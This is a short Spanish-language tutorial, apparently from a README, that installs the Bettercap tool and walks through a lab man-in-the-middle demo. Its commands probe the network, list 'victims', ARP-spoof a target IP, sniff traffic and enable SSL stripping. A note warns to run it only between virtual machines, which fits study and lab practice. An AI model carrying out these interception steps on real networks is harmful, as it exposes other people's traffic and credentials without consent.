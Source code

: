 1. **Actualizar el sistema**

```bash
sudo apt update && sudo apt upgrade
```

2. **Instalar Bettercap**

```bash
sudo apt install bettercap
```

3. **Verificar instalación**

```bash
bettercap -h
```

Deberías ver la ayuda de comandos de Bettercap.

---

### 🔁 Ejemplo práctico de uso (modo demo o laboratorio)

> Solo hazlo en un entorno seguro (una red local entre dos máquinas virtuales)

#### 1. Ver qué dispositivos hay en tu red:

```bash
sudo bettercap -iface eth0
```

Luego, en la consola de Bettercap:

```bash
net.probe on
```

#### 2. Ver las víctimas:

```bash
net.show
```

#### 3. Realizar ARP Spoofing:

```bash
set arp.spoof.targets [IP DE LA VÍCTIMA]
arp.spoof on
```

#### 4. Escuchar el tráfico (Sniffing):

```bash
net.sniff on
```

#### 5. Opcional – Hacer SSL Stripping:

```bash
https.proxy on
```

---